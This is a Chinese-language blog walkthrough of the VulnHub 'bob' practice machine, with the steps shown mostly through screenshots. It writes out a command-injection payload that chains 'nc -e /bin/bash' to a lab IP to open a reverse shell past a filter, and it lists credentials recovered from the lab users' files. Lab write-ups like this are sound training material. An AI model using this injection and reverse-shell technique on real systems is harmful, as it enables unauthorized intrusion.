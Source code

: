 ```yaml
---
layout: post
title:  "vulnhub >_ bob"
description: walkthrough
category: vulnhub
---
```


# bob

![image-20200619064614371]({{ site.url }}/assets/bob.assets/image-20200619064614371.png)

![image-20200619064801608]({{ site.url }}/assets/bob.assets/image-20200619064801608.png)



![image-20200619071632161]({{ site.url }}/assets/bob.assets/image-20200619071632161.png)



![image-20200619073444169]({{ site.url }}/assets/bob.assets/image-20200619073444169.png)

![image-20200619073622557]({{ site.url }}/assets/bob.assets/image-20200619073622557.png)

直接nc回弹shell会被过滤掉，试一试用命令连接

```bash
id || nc -e /bin/bash 10.10.10.128 1337		#失败
id && nc -e /bin/bash 10.10.10.128 1337		#成功
```

![image-20200619081420128]({{ site.url }}/assets/bob.assets/image-20200619081420128.png)

home下有4个用户，bob目录下有隐藏的旧密码文件

![image-20200619083020352]({{ site.url }}/assets/bob.assets/image-20200619083020352.png)

```bash
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![image-20200619083557481]({{ site.url }}/assets/bob.assets/image-20200619083557481.png)

```bash
elliot:theadminisdumb
```

![image-20200619084327709]({{ site.url }}/assets/bob.assets/image-20200619084327709.png)

secret挖到最后

![image-20200619084614096]({{ site.url }}/assets/bob.assets/image-20200619084614096.png)

回到之前的文档目录

![image-20200619084829225]({{ site.url }}/assets/bob.assets/image-20200619084829225.png)

看来只剩下login.txt.gpg文件了，这是个加密的txt文件

做了一些枚举，仍没发现有用的线索。

仔细回看之前得到的信息发现

![image-20200619085618690]({{ site.url }}/assets/bob.assets/image-20200619085618690.png)

```bash
HARPOCRATES

```

![image-20200619090613529]({{ site.url }}/assets/bob.assets/image-20200619090613529.png)

使用nc传回kali，

尝试用之前的密码解密

```bash
gpg --batch --passphrase HARPOCRATES -d login.txt.gpg
```



![image-20200619091300916]({{ site.url }}/assets/bob.assets/image-20200619091300916.png)

```bash
bob:b0bcat_
```

![image-20200619091820165]({{ site.url }}/assets/bob.assets/image-20200619091820165.png)

![image-20200619091913730]({{ site.url }}/assets/bob.assets/image-20200619091913730.png)